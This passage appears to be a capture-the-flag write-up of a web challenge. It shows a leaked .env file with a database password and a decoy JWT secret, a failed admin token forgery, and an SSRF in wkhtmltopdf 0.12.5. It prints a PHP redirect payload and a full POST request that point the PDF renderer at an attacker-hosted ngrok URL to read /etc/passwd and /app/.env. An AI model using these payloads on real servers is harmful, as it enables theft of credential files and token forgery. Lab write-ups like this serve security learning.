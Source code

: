 - while i looking through the files,i found `.env` file have been provided to us!

```
DB_HOST=127.0.0.1
DB_USER=root
DB_PASSWORD=D4T4b4s3Secr3tP4ssw0rd1ss0L0ngOmG!
DB_NAME=construction
DB_PORT=3306
secret=IM_Sup3r_K3y_pl3ase_b3_c4r3ful?
```

- The DB password and secret seemed valid, so i ceased my progress and went on creating admin JWT with the found secret.
- I tried to verify my crafted admin token and found it was `invalid or expired token.`

`GET /admin?token=<token>`

- Trying multiple things for a while,then i thought of verifying the guest token locally with the secret ! IT FAILEDDDDD! 

<img/src="node.jpeg"></img>

- It was not the legit secret ! ahhh getting back to my old progress.

#### Getting back to the `/download` endpoint:

- Upon analysing the `wkhtmltopdf` version through produced pdf `wkhtmltopdf 0.12.5`,there is an SSRF vulnerability and we can read local files with it.

- Exploit : https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/
- We need to host a php file `<?php header('location:file://'.$_REQUEST['x']); ?>
` and call it the post url to trigger the ssrf.
- `url=http://ngrok_url/test.php?x=/etc/passwd`

- The idea is to read the real secret inside `/app/.env` through the ssrf and forge the admin token for further exploitation.

```
POST /download?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTcxNjIxMDUzMX0.2gwPTRqbPfj4Axbz2B3t4HNWHHdcgIXgTCcCyGaupW0 HTTP/1.1
Host: host:30586
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

url=http://ngrok_url/test.php?x=/app/.env
```
